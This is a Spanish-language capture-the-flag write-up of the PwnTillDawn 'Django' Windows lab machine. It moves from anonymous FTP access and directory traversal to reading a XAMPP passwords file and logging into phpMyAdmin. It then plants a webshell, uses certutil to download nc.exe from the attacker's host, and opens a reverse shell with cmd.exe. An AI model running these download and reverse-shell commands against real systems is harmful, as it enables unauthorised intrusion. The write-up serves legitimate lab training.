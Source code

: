 # WRITEUP Django

### ESCANEO
#### 10.150.150.212	Windows	Easy
```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8089/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Iniciando un escaneo a la maquina, podemos observar varios puertos interesantes. El puerto 21,80,445 y el 3306.
Siempre que veamos el servicio ftp abierto, debemos intentar loguearnos como "anonymous" ya que algunas veces está activado el usuario y podría contener cosas valiosas.

### ENUMERACIÓN

Empezando por el puerto más chico, intenté loguearme como anonymous al servicio ftp y logré obtener los siguientes archivos.

![iamgen1](img/imagen_2021-03-09_230959.png)

al abrirlos nos topamos con la siguiente información 

![iamgen2](img/2.PNG)
![iamgen3](img/3.PNG)

como podemos observar, hay una ruta muy interesante "C:\xampp\passwords.txt". Entonces volví a ingresar al servicio ftp e intenté listar desde raíz y me listó todo.

### EXPLOTACIÓN 

Algo muy interesante que logré encontrar fue que si hago un listado del directorio recorriendo hacia atrás, sí me muestra todos los directorios... lo cual fue muy interesante ya que puedo acceder a las carpetas de otros usuarios. La primera y segunda FLAG, se encuentra en el mismo directorio de xampp

`-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt`


```
C:\FTP\FLAG>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3829-EAA8

 Directory of C:\FTP\FLAG

03/13/2019  01:17 PM    <DIR>          .
03/13/2019  01:17 PM    <DIR>          ..
03/13/2019  01:22 PM                40 FLAG19.txt
               1 File(s)             40 bytes
               2 Dir(s)   3,864,674,304 bytes free
```

![iamgen3](img/4.PNG)

```
ftp> dir ../Users/
200 Port command successful.
150 Opening data connection for directory list.
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 .
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 ..
drw-rw-rw-   1 ftp      ftp            0 Oct 22  2019 chuck.norris
dr--r--r--   1 ftp      ftp            0 Jul 14  2009 Public
drw-rw-rw-   1 ftp      ftp            0 Nov 13  2018 rambo
```

si accedemos al directorio de "chuck.norris" podemos encontrar la tercera flag.

![iamgen3](img/5.PNG)

Ahora, si accedemos a la ruta que habíamos encontrado en los logs, podemos descargar ese archivo que contiene lo siguiente:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

User: root
Password:thebarrierbetween

2) FileZilla FTP:

[ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

Postmaster: Postmaster (postmaster@localhost)
Administrator: Admin (admin@localhost)

User: newuser
Password: wampp

4) WEBDAV:

User: xampp-dav-unsecure
Password: ppmax2011
Attention: WEBDAV is not active since XAMPP Version 1.7.4.
For activation please comment out the httpd-dav.conf and
following modules in the httpd.conf

LoadModule dav_module modules/mod_dav.so
LoadModule dav_fs_module modules/mod_dav_fs.so
Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

Como podemos observar, hay varias credenciales que podemos utilizar. Arriba habíamos localizado el puerto 3306 que hace referencia a MYSQL, por lo tanto si accedo por el navegador directamente a ese puerto me debería lanzar el formulario de logueo.

![iamgen6](img/6.PNG)

una vez ingresando a phpmyadmin, podemos ver la ultima flag.

![iamgen6](img/7.PNG)

Ya que tenemos acceso directamente a la consola, podemos intentar subir una webshell mediante un query y mandarnos una reverse shell para obtener acceso.

![iamgen6](img/8.PNG)

Una vez que tenemos la webshell, procederemos a montar un servidor http y descargarle una reverse shell con la utilidad certutil.

![iamgen6](img/9.PNG)

`http://10.150.150.212/rs.php?cmd=certutil -urlcache -split -f "http://10.66.66.106/nc.exe" C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe`

Ahora sólo resta ejecutar nc apuntando hacia nuestra dirección IP.

`http://10.150.150.212/rs.php?cmd=C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe MiIP 443 -e cmd.exe`


y listo, tenemos una reverse shell.

![iamgen6](img/10.PNG)


Esta maquina nos demuestra que tan importante es desactivar el usuario anonymous ya que es muy peligroso si no tenemos bien configurado nuestro servidor FTP.
Las configuraciones por defecto siempre son peligrosas y pueden costarnos muy caro. 


Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
